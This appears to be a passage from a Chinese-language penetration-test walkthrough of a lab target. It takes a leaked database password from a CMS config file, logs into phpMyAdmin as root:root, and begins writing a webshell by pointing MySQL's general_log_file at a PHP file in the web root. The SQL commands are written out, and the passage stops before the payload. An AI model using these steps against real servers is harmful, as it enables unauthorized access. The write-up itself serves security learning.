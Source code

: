 ## 2、漏洞利用

这里主要可能有两个地方可以进行利用，一个是看看我们的cms是否有可以利用的地方、一个是看看那个phpmyadmin是否可以利用。

这里，我们由于下载到了源码，我们可以先看看源码中有没有敏感信息泄露。

#### 1）源码敏感信息泄露

一般来说，php的cms都会在conf.php中存有数据库的连接密码 ==> 一旦拿到我们就可以利用这个去连接数据库了！

![截图](ac3589ce53015bd2925f9f95a9733999.png)

很好这里还是个弱密码，可能不用看我们都可以进入了！那么这里拿到后，我们就进去phpmyadmin看看呗

#### 2）测试phpmyadmin -- getshell

利用弱密码root:root进入后，我们进去到newyxcms的yx_admin里看看能不能拿到这个cms的密码：

![截图](02b7cc74ae1a4ddf27b87dad1deb50b5.png)

我们解密看看：

....没查到

![截图](76998d6293d434a5c2154190a39adeab.png)

没事，我们接下来利用phpmyadmin来getshell。参考文章：https://www.cnblogs.com/0nc3/p/12071314.html

**getshell：**

首先，我们使用这个命令查看一下能否直接使用select into outfile直接写入：

```sql
show global variables like '%secure%';
```

![截图](28faa07eb7d597479077456a6f4cefce.png)

这里的`secure_file_priv为NULL`，表示限制mysql不允许导入导出（但好像可以开启？不确定有兴趣的可以看看）。

接下来我们试试看利用全局日志看看，查看一下配置：

```sql
show variables like '%general%';
```

![截图](29013af3c5cc9f6f97bf65ab10c3750d.png)

开启general log模式（需要用root，但我们权限就行root）

```sql
set global general_log = on;
```

设置日志目录为shell地址：

```sql
set global general_log_file = 'C:/phpStudy/www/yuan.php';
```
